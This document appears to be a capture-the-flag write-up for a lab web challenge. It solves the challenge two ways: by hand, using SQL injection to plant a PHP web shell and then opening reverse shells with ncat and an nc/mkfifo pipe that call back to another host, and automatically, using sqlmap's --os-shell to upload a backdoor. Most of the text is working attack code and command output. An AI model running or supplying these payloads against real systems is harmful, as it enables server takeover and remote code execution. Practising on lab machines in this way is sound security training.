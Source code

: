 # 3b2000_web_hacking_2

## the first solution
manual exploit, use sql injection to execute php code

```
# store php code in a file
jinjia%' union select 1,2,3, '<?php system($_GET["cmd"]); ?>' into outfile '/var/www/html/php/cmd.php' #
```

execute shell commands
```
http://10.0.2.197/php/cmd.php?cmd=find / -type f -name "*flag*" 2>/dev/null

/var/www/html/flag{3b2000bce661383f40def1bba8b2c4cad36c565423823f}.jpg
```

or we can get the reverse shell
```
nc -lvp 4444
python3 -c 'import pty; pty.spawn("/bin/bash")'
<Ctrl-Z>
stty raw -echo && fg  # reset
Terminal type?  xterm

# use `ncat`
http://10.0.2.197/php/cmd.php?cmd=ncat 192.168.0.7 4444 -e /bin/bash

# use `nc`
# %3b" is encoding for ";"
# %26" is encoding for "&"
# The + or %20 is used as a URL encoding for spaces.
# rm /tmp/f;bmkfifo /tmp/f;bcat /tmp/f | /bin/sh -i 2>&1|nc+192.168.0.7 4444 >/tmp/f
http://10.0.2.197/php/cmd.php?cmd=rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+192.168.0.3+4444+>/tmp/f
```

## the second solution
`sqlmap` automate sql injection

```
sqlmap --url=http://10.0.2.197/php/recherche_old.php --cookie="PHPSESSID=p6gv5tl2udp0k9lqfvse3vpri3" --method=POST --data="recherche=jinjia&btnRechercher=Rechercher" -p recherche --os-shell --dbms=mysql 


[16:14:13] [INFO] the backdoor has been successfully uploaded on '/var/www/html/php/' - http://10.0.2.197:80/php/tmpbbrnf.php


http://10.0.2.197:80/php/tmpbbrnf.php?cmd=echo 123
```